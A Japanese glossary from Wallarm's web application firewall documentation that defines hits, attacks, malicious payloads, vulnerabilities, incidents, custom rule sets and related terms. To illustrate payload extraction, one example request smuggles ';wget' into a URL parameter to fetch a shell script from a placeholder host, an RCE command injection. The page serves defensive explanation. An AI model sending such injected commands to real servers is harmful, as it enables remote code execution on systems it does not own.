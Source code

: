 # 用語集

用語集では、Wallarmの主要なエンティティについて説明して、プラットフォームへの理解を深める手助けをしています。

## ヒット

ヒットとは、シリアライズされた悪意のあるリクエスト（元の悪意のあるリクエストとフィルタリングノードによって追加されたメタデータ）を意味します。例：

![!Hit example](images/user-guides/events/analyze-attack-raw.png)

[ヒットパラメータの詳細](user-guides/events/analyze-attack.md#analyze-requests-in-an-attack)

## 攻撃

攻撃とは、以下の特徴によってグループ化された単一のヒットまたは複数のヒットです。

* 同じ攻撃タイプ、悪意のあるペイロードが含まれるパラメータ、およびヒットが送信されたアドレス。ヒットは、同じIPアドレスまたは別のIPアドレスから来ることがあり、また、1つの攻撃タイプ内で悪意のあるペイロードの値が異なる場合があります。

    このヒット分類方法は基本的で、すべてのヒットに適用されます。
* 同じソースIPアドレス（適切な[トリガー](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack)が有効になっている場合）。他のヒットパラメータの値が異なることがあります。

    このヒット分類方法は、Brute force、Forced browsing、BOLA（IDOR）、Resource overlimit、Data bomb、およびVirtual patch攻撃タイプを除くすべてのヒットに適用されます。

    ヒットがこの方法でグループ化されている場合、[**誤検知としてマーク**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive)ボタンと[アクティブ検証](about-wallarm/detecting-vulnerabilities.md#active-threat-verification)オプションは、攻撃に使用できません。

上記のヒット分類方法は相互に排他的ではありません。ヒットが両方の方法の特徴を持っている場合、それらはすべて1つの攻撃にグループ化されます。

単一のヒットを含む攻撃の例：

![!Attack with one hit](images/glossary/attack-with-one-hit-example.png)

多数のヒットを含む攻撃の例：

![!Attack with several hits](images/glossary/attack-with-several-hits-example.png)

## 悪意あるペイロード

元のリクエストの一部で、以下の要素を含むものです。

* 攻撃サインがリクエストで検出されている場合。同じ攻撃タイプを特徴付けるいくつかの攻撃サインがリクエストで検出された場合、最初のサインだけがペイロードに記録されます。
* 攻撃サインのコンテキスト。コンテキストは、検出された攻撃サインの前後にある一連の記号です。ペイロードの長さに制限があるため、攻撃サインが全ペイロードの長さを持っている場合、コンテキストは省略されることがあります。

例：

* リクエスト：

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* 悪意あるペイロード：

    ```bash
    ;wget+http://s
    ```

    このペイロードでは、`;wget+`が[RCE](attacks-vulns-list.md#remote-code-execution-rce)攻撃サインであり、ペイロードの他の部分は攻撃サインのコンテキストです。

攻撃サインは、[行動攻撃](about-wallarm/protecting-against-attacks.md#behavioral-attacks)の検出には使用されないため、行動攻撃の一部として送信されるリクエストはペイロードが空になります。

## 脆弱性
脆弱性とは、ウェブアプリケーションの構築や実装において、不注意や情報不足によるエラーで、情報セキュリティ上のリスクにつながるものです。

情報セキュリティ上のリスクには以下のようなものがあります。

* 不正なデータアクセス；例えば、ユーザーデータの読み取りや変更など。
* サービス拒否。
* データ破損その他。

インターネットのトラフィックは脆弱性を検出するために利用され、Wallarmのその他の機能もこれに対応しています。

## セキュリティインシデント

セキュリティインシデントとは、脆弱性を悪用する発生事象のことです。インシデントは、確認済みの脆弱性を対象とした[攻撃](#attack)です。

インシデントは攻撃と同様に、システム外部のエンティティであり、システム自体の特性ではなく、インターネットの外部の特性です。既存の脆弱性を対象とした攻撃は少数派ですが、情報セキュリティの観点から最も重要です。Wallarmは、既存の脆弱性を対象とした攻撃を自動的に検出し、それらを別のオブジェクトとして表示しています。

## 循環バッファ
循環バッファとは、単一の固定サイズバッファを端から端まで接続されているかのように使用するデータ構造です。
[ウィキペディア](https://en.wikipedia.org/wiki/Circular_buffer)を参照してください。

## カスタムルールセット（以前の用語はLOM）

カスタムルールセットとは、WallarmノードがWallarm Cloudからダウンロードするコンパイル済みセキュリティルールのセットです。

カスタムルールを使用することで、トラフィック処理のための個別のルールを設定できます。例：

* Wallarm Cloudにアップロードする前に機密データをマスクする
* 正規表現ベースの攻撃インジケーターを作成する
* アクティブな脆弱性を悪用するリクエストをブロックする仮想パッチを適用する
* 特定のリクエストでの攻撃検出を無効にするなどです。

カスタムルールセットはデフォルトで空ではなく、Wallarm Cloudに登録されたすべてのクライアントのルールが含まれています。例えば、[**Settings → General**タブ](user-guides/settings/general.md)で設定された値のフィルタリングモードルールが含まれています。

[カスタムルールセットの詳細](user-guides/rules/intro.md)

## 無効なリクエスト
フィルターノードでチェックされ、LOMルールに一致しないリクエスト。

## リバースプロキシ
リバースプロキシとは、クライアントに代わってサーバーからリソースを取得し、リソースをWebサーバー自体から来たかのようにクライアントに返すプロキシサーバーの一種です。
[ウィキペディア](https://en.wikipedia.org/wiki/Reverse_proxy)を参照してください。

## 証明書認証局
証明書認証局とは、デジタル証明書を発行する機関です。
[ウィキペディア](https://en.wikipedia.org/wiki/Certificate_authority)を参照してください。
